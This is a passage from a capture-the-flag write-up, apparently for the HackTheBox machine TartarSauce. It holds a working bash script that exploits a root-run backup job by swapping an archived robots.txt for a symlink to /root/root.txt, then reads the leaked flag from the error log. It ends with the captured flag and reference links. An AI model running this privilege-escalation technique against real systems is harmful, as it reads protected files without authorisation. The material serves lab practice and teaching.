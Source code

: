 # loop until there's a change in cur
echo "Waiting for archive filename to change..."
while [ "$start" == "$cur" -o "$cur" == "" ] ; do
    sleep 10;
    cur=$(find /var/tmp -maxdepth 1 -type f -name ".*");
done

# Grab a copy of the archive
echo "File changed... copying here"
cp $cur .

# get filename
fn=$(echo $cur | cut -d'/' -f4)

# extract archive
tar -zxf $fn

# remove robots.txt and replace it with link to root.txt
rm var/www/html/robots.txt
ln -s /root/root.txt var/www/html/robots.txt

# remove old archive
rm $fn

# create new archive
tar czf $fn var

# put it back, and clean up
mv $fn $cur
rm $fn
rm -rf var

# wait for results
echo "Waiting for new logs..."
tail -f /var/backups/onuma_backup_error.txt
```
- After executing, check pspy32s, the sh will be execute and the delay time also will show up.

![](./IMG/49.png)
- Check the Content, the flag will be display
- Get root flag: ``` 8a65a0ae775f5e58e9fb4a5b61015500 ```

![](./IMG/50.png)


## Reference 

### Writeup 

- [(Discussion)Hint for TartarSauce!](https://forum.hackthebox.com/t/hint-for-tartarsauce/643/273)
- [Writeup-1 Reference-1](https://0xdf.gitlab.io/2018/10/20/htb-tartarsauce.html)
- [(Video)HackTheBox - Tartarsauce](https://www.youtube.com/watch?v=9MeBiP637ZA)
```